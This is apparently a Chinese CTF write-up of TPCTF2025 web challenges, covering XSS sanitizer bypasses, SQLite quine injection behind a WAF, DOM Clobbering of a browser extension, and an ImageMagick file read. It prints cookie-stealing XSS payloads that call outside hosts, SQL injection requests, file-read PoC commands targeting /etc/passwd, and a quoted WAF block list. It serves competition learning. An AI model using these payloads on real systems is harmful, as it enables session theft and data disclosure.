+++
title = "TPCTF2025"
slug = "tpctf2025"
description = "一般垃圾一般好"
date = "2025-03-08T11:02:29"
lastmod = "2025-03-08T11:02:29"
image = ""
license = ""
categories = ["赛题"]
tags = ["xss", "sqlite"]
+++

首发于先知社区：https://xz.aliyun.com/news/17519

## baby layout

```
scp -r "C:\Users\baozhongqi\Desktop\baby-layout" root@156.238.233.93:/opt/CTFDocker

docker compose up -d
```

我看到bot就丁真xss，基本应用代码都是这么写的，flag在cookie里面，再来仔细看看代码



直接进行替换，所以拼接绕过

```js
layout


content
x" onerror="alert(114)
```

发到服务器上面就可以了

```js
x" onerror="window.open('http://156.238.233.9:9999/?p='+document.cookie)
```

别忘了report



## supersqli

端口占用了，用另一台服务器

```
scp -r "C:\Users\baozhongqi\Desktop\web_deploy" root@156.238.233.93:/opt/CTFDocker
```

又是sqlite3，并且黑名单还是挺死的那种，经过一番测试，个人认为需要进行密码的更新来获得flag，但是主要文件其实就两个

```go
package main

import (
	"bytes"
	"io"
	"log"
	"mime"
	"net/http"
	"regexp"
	"strings"
)

const backendURL = "http://127.0.0.1:8000"
const backendHost = "127.0.0.1:8000"

var blockedIPs = map[string]bool{
	"1.1.1.1": true,
}

var sqlInjectionPattern = regexp.MustCompile(`(?i)(union.*select|select.*from|insert.*into|update.*set|delete.*from|drop\s+table|--|#|\*\/|\/\*)`)

var rcePattern = regexp.MustCompile(`(?i)(\b(?:os|exec|system|eval|passthru|shell_exec|phpinfo|popen|proc_open|pcntl_exec|assert)\s*\(.+\))`)

var hotfixPattern = regexp.MustCompile(`(?i)(select)`)

var blockedUserAgents = []string{
	"sqlmap",
	"nmap",
	"curl",
}

func isBlockedIP(ip string) bool {
	return blockedIPs[ip]
}

func isMaliciousRequest(r *http.Request) bool {
	for key, values := range r.URL.Query() {
		for _, value := range values {
			if sqlInjectionPattern.MatchString(value) {
				log.Printf("阻止 SQL 注入: 参数 %s=%s", key, value)
				return true
			}
			if rcePattern.MatchString(value) {
				log.Printf("阻止 RCE 攻击: 参数 %s=%s", key, value)
				return true
			}
			if hotfixPattern.MatchString(value) {
				log.Printf("参数 %s=%s", key, value)
				return true
			}
		}
	}

	if r.Method == http.MethodPost {
		ct := r.Header.Get("Content-Type")
		mediaType, _, err := mime.ParseMediaType(ct)
		if err != nil {
			log.Printf("解析 Content-Type 失败: %v", err)
			return true
		}
		if mediaType == "multipart/form-data" {
			if err := r.ParseMultipartForm(65535); err != nil {
				log.Printf("解析 POST 参数失败: %v", err)
				return true
			}
		} else {
			if err := r.ParseForm(); err != nil {
				log.Printf("解析 POST 参数失败: %v", err)
				return true
			}
		}

		for key, values := range r.PostForm {
			log.Printf("POST 参数 %s=%v", key, values)
			for _, value := range values {
				if sqlInjectionPattern.MatchString(value) {
					log.Printf("阻止 SQL 注入: POST 参数 %s=%s", key, value)
					return true
				}
				if rcePattern.MatchString(value) {
					log.Printf("阻止 RCE 攻击: POST 参数 %s=%s", key, value)
					return true
				}
				if hotfixPattern.MatchString(value) {
					log.Printf("POST 参数 %s=%s", key, value)
					return true
				}

			}
		}
	}
	return false
}

func isBlockedUserAgent(userAgent string) bool {
	for _, blocked := range blockedUserAgents {
		if strings.Contains(strings.ToLower(userAgent), blocked) {
			return true
		}
	}
	return false
}

func reverseProxyHandler(w http.ResponseWriter, r *http.Request) {
	clientIP := r.RemoteAddr
	if isBlockedIP(clientIP) {
		http.Error(w, "Forbidden", http.StatusForbidden)
		log.Printf("阻止的 IP: %s", clientIP)
		return
	}

	bodyBytes, err := io.ReadAll(r.Body)

	if err != nil {
		http.Error(w, "Bad Request", http.StatusBadRequest)
		return
	}

	r.Body = io.NopCloser(bytes.NewBuffer(bodyBytes))

	if isMaliciousRequest(r) {
		http.Error(w, "Malicious request detected", http.StatusForbidden)
		return
	}

	if isBlockedUserAgent(r.UserAgent()) {
		http.Error(w, "Forbidden User-Agent", http.StatusForbidden)
		log.Printf("阻止的 User-Agent: %s", r.UserAgent())
		return
	}

	proxyReq, err := http.NewRequest(r.Method, backendURL+r.RequestURI, bytes.NewBuffer(bodyBytes))
	if err != nil {
		http.Error(w, "Bad Gateway", http.StatusBadGateway)
		return
	}
	proxyReq.Header = r.Header

	client := &http.Client{
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
			return http.ErrUseLastResponse
		},
	}

	resp, err := client.Do(proxyReq)
	if err != nil {
		http.Error(w, "Bad Gateway", http.StatusBadGateway)
		return
	}
	defer resp.Body.Close()

	for key, values := range resp.Header {
		for _, value := range values {
			if key == "Location" {
				value = strings.Replace(value, backendHost, r.Host, -1)
			}
			w.Header().Add(key, value)
		}
	}
	w.WriteHeader(resp.StatusCode)
	io.Copy(w, resp.Body)
}

func main() {
	http.HandleFunc("/", reverseProxyHandler)
	log.Println("Listen on 0.0.0.0:8080")
	log.Fatal(http.ListenAndServe(":8080", nil))
}
```

第一层就是这个代理，然后查询语句，起了环境之后一直不知道怎么绕过，后来查到[文章](https://www.cnblogs.com/throwable/p/15740444.html)，知道如何绕过代理

```http
POST /flag/ HTTP/1.1
Host: 156.238.233.93
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Length: 424

------WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Disposition: form-data; name="password"; filename="password";
Content-Disposition: form-data; name="password";

' union select 1,2,3 from auth_permission where 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000)))) -- asdf
------WebKitFormBoundaryYvbD7Ke5rzcVI8sN--
```



成功延时了，但是还是无法查询flag，仔细查看代码



限制了为`admin`，有没有办法想mysql一样做到说能够伪造呢



类似的这道题，在代码中明确说明了列的创建，password列最多20个字符，这个被称为quine注入，学习一下，简单的说，就是查询语句和查询出来的答案保持一致

```
select replace('replace(".",char(46),".")',char(46),'.');

select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
```

网上查到的类似poc如下，

```
admin
'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#


bilala
'/**/union/**/select/**/replace(replace('"/**/union/**/select/**/replace(replace("%",0x22,0x27),0x25,"%")#',0x22,0x27),0x25,'"/**/union/**/select/**/replace(replace("%",0x22,0x27),0x25,"%")#')#

admin
'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",chr(34),chr(39)),chr(46),".")#',chr(34),chr(39)),chr(46),'1"/**/union/**/select/**/replace(replace(".",chr(34),chr(39)),chr(46),".")#')#
```

把代码改改重新起靶机

```
docker stop $(docker ps -aq) && docker rm -f $(docker ps -aq) && docker rmi -f $(docker images -q)
```

看到结果之后把payload改改这道题就可以出了

```http
POST /flag/ HTTP/1.1
Host: 1.95.159.113
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Length: 424

------WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryYvbD7Ke5rzcVI8sN
Content-Disposition: form-data; name="password"; filename="password";
Content-Disposition: form-data; name="password";

1' union select 1,2,replace(replace('1" union select 1,2,replace(replace(".",char(34),char(39)),char(46),".")-- ',char(34),char(39)),char(46),'1" union select 1,2,replace(replace(".",char(34),char(39)),char(46),".")-- ')-- 
------WebKitFormBoundaryYvbD7Ke5rzcVI8sN--
```

## safe layout

```
scp -r "C:\Users\baozhongqi\Desktop\safe-layout" root@156.238.233.93:/opt/CTFDocker
```

唯一的区别就是

```js
const sanitizedContent = DOMPurify.sanitize(content, { ALLOWED_ATTR: [] });

const sanitizedLayout = DOMPurify.sanitize(layout, { ALLOWED_ATTR: [] });
```

不允许使用html属性了，但是data还可以使用，看到下一题发现确实是预期解

```
layout:


content:
x" src="x" onerror="alert(114)

x" src="x" onerror="window.open('http://156.238.233.9:9999/?p='+document.cookie)
```

## safe layout revenge

密钥是`TPCTF{D0_n07_M0D1FY_7h3_0U7PU7_Af73R_H7mL_5aN171z1n9}`

```
scp -r "C:\Users\baozhongqi\Desktop\safe-layout-revenge" root@156.238.233.93:/opt/CTFDocker
```

```js
const sanitizedContent = DOMPurify.sanitize(content, {
    ALLOWED_ATTR: [],
    ALLOW_ARIA_ATTR: false,
    ALLOW_DATA_ATTR: false,
  });

const sanitizedLayout = DOMPurify.sanitize(layout, {
    ALLOWED_ATTR: [],
    ALLOW_ARIA_ATTR: false,
    ALLOW_DATA_ATTR: false,
  });
```

- `ALLOWED_ATTR: []`：禁止所有 HTML 属性
- `ALLOW_ARIA_ATTR: false`：显式禁止 ARIA 属性
- `ALLOW_DATA_ATTR: false`：显式禁止 `data-*` 自定义属性

要绕过这个的话，找到两篇文章 [编码差异](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/) [类似的题目](https://github.com/Sudistark/CTF-Writeups/blob/main/Flatt-Security-XSS-Challenge/solutions.md) 看不懂，快哉快哉~，鸡毛的一点用没有，编码被限制的死死的，使用`style`标签来进行逃逸，起始的 `asdf` 用于干扰 HTML 解析规则

```js
asdf<style><{{content}}/style><<{{content}}script>fetch("http://156.238.233.9:9999/?p="+document.cookie)<{{content}}/script>test</style>
```

还可以用math来腾出`<style>` [math标签](https://ensy.zip/posts/dompurify-323-bypass/) 今天看了一下，我貌似是懂了如何来进行逃逸，首先我们利用`{{content}}`来进行一个混淆，使得本来作为闭合标签的东西变成一个没用的东西，那我们也可以在其中插入，但是由于会重新把`{{content}}`置空，并且可以正常解析，也就插入了恶意payload，`math`来进行逃逸的poc为

```js
<math><foo-test><mi><li><table><foo-test><li></li></foo-test><a>
<style>
<!{{content}}\${<{{content}}/style><{{content}}img src=x onerror="window.open('https://aojveb29.requestrepo.com/?p='+document.cookie)">
</style>
}
<foo-b id=">">hmm...</foo-b></a></table></li></mi></foo-test></math>
```

这么看XSS貌似也挺好玩的

# remake

## are-you-incognito

```
scp -r "C:\Users\baozhongqi\Desktop\are-you-incognito" root@156.238.233.93:/opt/CTFDocker
```

```html
<script>
    const urlInput = document.getElementById('url');
    const report = document.getElementById('report');

    let loading = false;
    report.addEventListener('click', async () => {
      if (loading) return;

      const url = urlInput.value.trim();
      if (!url.startsWith('http://') && !url.startsWith('https://')) {
        alert('Invalid URL');
        return;
      }

      loading = true;
      report.toggleAttribute('disabled', true);
      report.setAttribute('aria-busy', 'true');

      try {
        const res = await fetch('/api/report', {
          method: 'POST',
          headers: {'Content-Type': 'application/json'},
          body: JSON.stringify({ url }),
        });
        if (res.status === 200) {
          alert('Completed!');
        } else {
          const text = await res.text();
          throw new Error(`HTTP ${res.status}: ${text}`);
        }
      } catch (err) {
        alert(`Error: ${err.message}`);
      }

      loading = false;
      report.toggleAttribute('disabled', false);
      report.setAttribute('aria-busy', 'false');
    });
  </script>
```

看到必须要是一个http服务才能被处理

```js
import puppeteer from 'puppeteer';

const sleep = (ms) => new Promise((resolve) => {
  setTimeout(resolve, ms);
});

export default async function visit(url) {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: 'new',
    executablePath: '/usr/bin/chromium',
    args: [
      '--no-sandbox',
      '--disable-dev-shm-usage',
      '--disable-gpu',
      '--js-flags="--noexpose_wasm"',
      '--disable-extensions-except=/extension',
      '--load-extension=/extension',
    ],
  });

  try {
    const page = await browser.newPage();
    await page.goto(url, { timeout: 5000, waitUntil: 'domcontentloaded' });
    await sleep(5000);
    await page.close();
  } catch (err) {
    console.error(err);
  }

  await browser.close();
  console.log(`end: ${url}`);
}
```

看到`visit.js`发现就是加载了指定拓展，设置5s超时

```js
import express from 'express';
import rateLimit from 'express-rate-limit';
import pLimit from 'p-limit';
import { cpus } from 'os';

import visit from './visit.js';

const app = express();
app.use(express.json());
app.use(express.static('public'));

app.use(
  '/api',
  rateLimit({
    windowMs: 60 * 1000,
    max: 2,
  }),
);

const CONCURRENCY = cpus().length * 2 - 1;
const MAX_PENDING = CONCURRENCY * 2;
const limit = pLimit(CONCURRENCY);

app.post('/api/report', async (req, res) => {
  const { url } = req.body;
  if (typeof url !== 'string' || (!url.startsWith('http://') && !url.startsWith('https://'))) {
    return res.status(400).send('Invalid URL');
  }

  if (limit.pendingCount >= MAX_PENDING) {
    console.log(`Server is busy: ${limit.pendingCount}`);
    return res.status(503).send('Server is busy');
  }

  try {
    await limit(visit, url);
    return res.sendStatus(200);
  } catch (e) {
    console.error(e);
    return res.status(500).send('Something went wrong');
  }
});

app.listen(1337, () => {
  console.log('Bot server running on port 1337');
});
```

设置了每分钟只被请求两次，如果服务不繁忙就正常利用`visit`来处理`url`，全局搜索`extension`，关键代码如下



首先我们要满足`browser.extension.inIncognitoContext`为true，其次这个拓展就会访问`/flag`，其中有flag，这里是最大的误区，我一开始认为是平常的xss，让bot去访问内部`/flag`再带出来，后面发现不是，绕过的话，我们可以利用**DOM Clobbering**攻击去对全局变量的劫持覆盖

```html
<!DOCTYPE html>
<html>
<body>
<form id="browser" name="runtime"></form>
<form id="browser" name="extension">
  <input name="inIncognitoContext" value="true">
</form>
</html>
```

再写一个Web应用将flag输出即可

```python
from flask import Flask, request, jsonify
import os

app = Flask(__name__)

@app.route('/')
def index():
    try:
        file_path = os.path.join(os.path.dirname(__file__), 'index.html')
        with open(file_path, 'r') as f:
            data = f.read()
        return data, 200, {'Content-Type': 'text/html'}
    except Exception as e:
        return 'Internal Server Error', 500

@app.route('/flag', methods=['POST'])
def flag():
    # 处 理  POST 请 求
    body = request.data.decode('utf-8')
    response = {
        'status': 'flag',
        'data': body
    }
    print(response)
    return jsonify(response), 200


@app.errorhandler(404)
def page_not_found(e):
    return 'Not Found', 404


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=19006)
```

运行

```
python3 exp.py
http://156.xxx.xxx.x3:19006/
```



## thumbor 1

先启动先看看

```
docker build -t thumbor1 .
docker run -d --name thumbor1_container -p 8800:8800 thumbor1
docker exec -it 1a9ca454a879 /bin/bash
```

拿到源码再说，额，发现这样子拿到的源码有问题，所以直接运行命令好像更好使？原来我找错了，但是地方确实是ImageMagick，是Z3师傅给我说的，但是我版本还是找错了，[文章1](https://www.freebuf.com/vuls/359193.html)  [文章2](https://cloud.tencent.com/developer/article/2235689) 

```
pip install pypng
./poc.py generate -o poc.png -r /etc/passwd
python3 poc.py parse -i ans.png
```



复现成功，但是对于本题，起好docker之后我们进入docker来找一下路由先，根本看不懂😭，问GPT，知道访问`/healthcheck`，如果 `thumbor` 正常工作，它应该返回 `WORKING`。我们的目的是找路由，在这里面有好多地方，所以思索了一下还是写个命令来进行检索

```
grep -Erni "route|url|handler|add_handler|path" .
```



知道路由之后我们就可以把文件来整一下了，并且也知道了格式，可以尝试一下

```
http://156.238.233.93:8800/thumbor/unsafe/http://156.238.233.9/poc.png
```

成功了，重新制作一个png来打

```
./poc.py generate -o poc.png -r /flag
python3 poc.py parse -i ans.png
```

没读到flag，换种办法来试试

```
pngcrush -text a "profile" "/flag" poc.png
identify -verbose ans2.png

scp -r -P 8776 "C:\Users\baozhongqi\Desktop\pngout.png" root@156.238.233.9:/var/www/html/
```

